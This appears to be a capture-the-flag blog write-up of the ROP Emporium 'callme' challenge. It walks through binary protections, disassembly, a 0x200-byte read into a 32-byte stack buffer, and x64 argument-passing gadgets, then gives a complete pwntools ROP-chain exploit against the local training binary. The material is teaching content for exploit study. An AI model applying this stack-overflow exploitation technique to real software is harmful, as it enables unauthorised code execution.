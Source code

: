 ```yaml
---
title: "Return-Oriented Programming - Callme"
date: '2021-12-20'
tags: ['ropemporium','rop', 'pwn']
draft: false
summary: Reliably make consecutive calls to imported functions. Use some new techniques and learn about the Procedure Linkage Table.
layout: PostLayout
---
```


## Introduction

Challenge Description

The goal of this challenge is to understand how  more than one argument is  passed in x64 function. The challenge can be downloaded from the authors website [ropemporium](https://ropemporium.com)

>Reliably make consecutive calls to imported functions.
>Use some new techniques and learn about the Procedure Linkage Table.

The program needs make consecutive calls to a function with three arguments in order to get a correct flag. The challenge description is similar to the split challenge.

>**You must call the callme_one(), callme_two() and callme_three() functions in that order, each with the arguments 0xdeadbeef, 0xcafebabe, 0xd00df00d e.g. callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d) to print the flag. For the x86_64 binary double up those values, e.g. callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)**

First we check the binary protections enabled on the callme binary, only **NX**( Not Executable) is enabled on the binary as shown below.

```bash
vx@archie:callme$ checksec --file callme
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```

Open the **callme** binary in radare2 to look for exploitable vulnerability and examine the behavior of the binary. radare2 is a powerful disassembler/debugging tool in Linux, used for examining the  behavior of programs.

![](/static/images/ropemporium/callme_bug.png)

From the above image we use **pdf** command in to do disassembly at a given function. From the image above, the function **pwnme** looks similar to the previous challenges ret2win and split.

From the above code, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. memset is used to overwrite any values that is present in the memory area specified. The memory area we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32bytes from the address of base pointer in the stack.
![](/static/images/ropemporium/stack.png)


Therefore the next function is read function, which reads for user input and stores in the specified buffer.

```c
ssize_t read(int fd, void *buf, size_t count);
```

From the above disassembled code, we are reading 0x200 bytes from the standard input file descriptor and storing it in our buffer. This means we are reading more than what the buffer can hold therefore leading to a stack buffer overflow.

For exploitation stack overflow, we need to fill our buffer, overwrite the rbp register and control the return address.

For building our ropchain, we need to understand the calling conventions of AMD64 ABI. The calling convention passes the arguments to the registers in the following order. RDI, RSI, RDX, RCX, R8 and R9.

Because the system function receives one argument, we need to look for one gadgets that we control the rdi, rsi and rdx registers.

**What are gadgets?**

Gadgets are sequence of instructions the end with ret. because we want to load three argument into registers, we will look for a pop rdi, pop rsi, pop rdx; ret instruction in order to pass an arguments to the callme_one, callme_two, callme_three functions.

The example of the **pop rdi,pop rsi,pop rdx, ret** gadget is shown in image below.

![](/static/images/ropemporium/poprdi_callme.png)

Next step is to determine the address of callme_one, callme_two, callme_three functions. For determining the functions address we use gdb to get the memory addresses.

```nasm
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x00000000004006a8  _init
0x00000000004006d0  puts@plt
0x00000000004006e0  printf@plt
0x00000000004006f0  callme_three@plt
0x0000000000400700  memset@plt
0x0000000000400710  read@plt
0x0000000000400720  callme_one@plt
0x0000000000400730  setvbuf@plt
0x0000000000400740  callme_two@plt
0x0000000000400750  exit@plt
0x0000000000400760  _start
0x0000000000400790  _dl_relocate_static_pie
0x00000000004007a0  deregister_tm_clones
0x00000000004007d0  register_tm_clones
0x0000000000400810  __do_global_dtors_aux
0x0000000000400840  frame_dummy
0x0000000000400847  main
0x0000000000400898  pwnme
0x00000000004008f2  usefulFunction
0x000000000040093c  usefulGadgets
0x0000000000400940  __libc_csu_init
0x00000000004009b0  __libc_csu_fini
0x00000000004009b4  _fini
(gdb) 
```

Reverse engineer one of the target function in order to understand how the arguments are passed to the function.Because the **callme** binary does PLT relocations of the functions of callme* , we need to disassemble the target shared library **libcallme.so** as shown below.

```nasm
vx@archie:callme$ gdb -q libcallme.so
Reading symbols from libcallme.so...
(No debugging symbols found in libcallme.so)
(gdb) disas callme_one
Dump of assembler code for function callme_one:
   0x000000000000081a <+0>:	push   rbp
   0x000000000000081b <+1>:	mov    rbp,rsp
   0x000000000000081e <+4>:	sub    rsp,0x30
   0x0000000000000822 <+8>:	mov    QWORD PTR [rbp-0x18],rdi
   0x0000000000000826 <+12>:	mov    QWORD PTR [rbp-0x20],rsi
   0x000000000000082a <+16>:	mov    QWORD PTR [rbp-0x28],rdx
   0x000000000000082e <+20>:	movabs rax,0xdeadbeefdeadbeef
   0x0000000000000838 <+30>:	cmp    QWORD PTR [rbp-0x18],rax
   0x000000000000083c <+34>:	jne    0x912 <callme_one+248>
   0x0000000000000842 <+40>:	movabs rax,0xcafebabecafebabe
   0x000000000000084c <+50>:	cmp    QWORD PTR [rbp-0x20],rax
   0x0000000000000850 <+54>:	jne    0x912 <callme_one+248>
   0x0000000000000856 <+60>:	movabs rax,0xd00df00dd00df00d
   0x0000000000000860 <+70>:	cmp    QWORD PTR [rbp-0x28],rax
   0x0000000000000864 <+74>:	jne    0x912 <callme_one+248>
   0x000000000000086a <+80>:	mov    QWORD PTR [rbp-0x8],0x0
   0x0000000000000872 <+88>:	lea    rsi,[rip+0x32f]        # 0xba8
   0x0000000000000879 <+95>:	lea    rdi,[rip+0x32a]        # 0xbaa
   ------
   ------
   0x0000000000000912 <+248>:	lea    rdi,[rip+0x301]        # 0xc1a
   0x0000000000000919 <+255>:	call   0x6c0 <puts@plt>
   0x000000000000091e <+260>:	mov    edi,0x1
   0x0000000000000923 <+265>:	call   0x720 <exit@plt>
   0x0000000000000928 <+270>:	nop
   0x0000000000000929 <+271>:	leave  
   0x000000000000092a <+272>:	ret    
End of assembler dump.
(gdb) 
```

From the disassembly code above, we can we are comparing our arguments in which we are passing to callme_one function. if the string values are not equal to values passed to the rdi, rsi and rdx registers the program exits, otherwise we get a flag.

From previous knowledge of solving other challenges, we need to overwrite the return address with the pop rdi, pop rsi, pop rdx, ret gadget and call each function in a sequential manner.

## Exploit
Fully working rop chain code is as shown below.

```python3
import pwn

pwn.context.encoding = "latin-1"
pwn.warnings.simplefilter("ignore")
pwn.context.arch = "amd64"

io = pwn.process('./callme')

pop_rdi_rsi_rdx = pwn.p64(0x0040093c)  #pop rdi; pop rsi; pop rdx; ret gadget
arg1 = pwn.p64(0xdeadbeefdeadbeef)
arg2 = pwn.p64(0xcafebabecafebabe)
arg3 = pwn.p64(0xd00df00dd00df00d)


callme_one_addr = pwn.p64(0x0000000000400720)
callme_two_addr = pwn.p64(0x0000000000400740)
callme_three_addr =pwn.p64(0x00000000004006f0)

#call the callme_one function
callme_one = pop_rdi_rsi_rdx
callme_one += arg1
callme_one += arg2
callme_one += arg3
callme_one += callme_one_addr

#callme_two function
callme_two = pop_rdi_rsi_rdx
callme_two += arg1
callme_two += arg2
callme_two  += arg3
callme_two += callme_two_addr

#callme_three function
callme_three = pop_rdi_rsi_rdx
callme_three += arg1
callme_three += arg2
callme_three += arg3
callme_three += callme_three_addr

payload = b"A" *32   #fill the buffer
payload += b"B" * 8  #overwrite the rbp
payload += callme_one
payload += callme_two
payload += callme_three


io.writeafter('>', payload)

pwn.info(io.clean().decode())

```

Successful execution of the above code, we get rewarded with a correct flag.


![](/static/images/ropemporium/callme-flag.png)
